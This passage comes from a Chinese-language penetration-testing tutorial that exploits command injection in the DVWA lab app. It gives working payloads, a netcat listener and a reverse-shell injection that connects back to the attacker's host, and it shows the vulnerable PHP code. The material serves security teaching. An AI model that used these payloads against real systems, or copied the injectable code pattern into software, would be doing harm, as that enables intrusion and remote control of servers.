 5.  现在，我们打算获取服务端的反向 shell。首先我们必须确保服务器拥有所需的任何东西。提交下列代码：`;ls /bin/nc*`。

    ![](img/6-2-4.jpg)
    
    所以我们拥有多于一种版本的 Netcat，我们打算使用它来生成连接。`nc`的OpenBSD版本不支持执行连接命令，所以我们使用传统的版本。
    
6.  下一步是监听 Kali 主机的连接。打开终端并执行下列命令：

    ```
    nc -lp 1691 -v
    ```
    
7.  返回浏览器中，提交这个：`;nc.traditional -e /bin/bash 192.168.56.1 1691 &`。

    ![](img/6-2-5.jpg
    
    我们的终端会对连接做出反应。我们现在可以执行非交互式命令并检查它们的输出。
    
### 工作原理

就像 SQL 注入的例子那样，命令注入漏洞的来源于弱输入校验机制，以及使用用户提供的数据来拼接之后会用做 OS 命令的字符串。如果我们查看刚刚攻击的页面源代码（每个 DVWA 页面的右下角会有个按钮），会看到这些：

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];
    
    // Determine OS and execute the ping command.    
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            
        
    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
        echo '<pre>'.$cmd.'</pre>';        
    }    
} 
?>
```

我们可以看到，它直接将用户的输入附加到 ping 命令后面。我们所做的仅仅是添加一个分号，系统的 shell 会将其解释为命令的分隔符，以及下一个我们打算执行的命令。

在成功执行命令之后，下一步就是验证服务器是否拥有 Netcat。它是一个能够建立网络连接的工具，在一些版本中还可以在新连接建立之后执行命令。我们看到了服务器的系统拥有两个不同版本的 Netcat，并执行了我们已知支持所需特性的版本。

之后我们配置攻击系统来监听 TCP 1691 端口连接（也可以是任何其它可用的 TCP 端口），然后我们让服务器连接到我们的机器，通过该端口并在连接建立时执行`/bin/bash`（系统 shell）。所以我们通过连接发送的任何东西都会被服务器接收作为 shell 的输入。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。

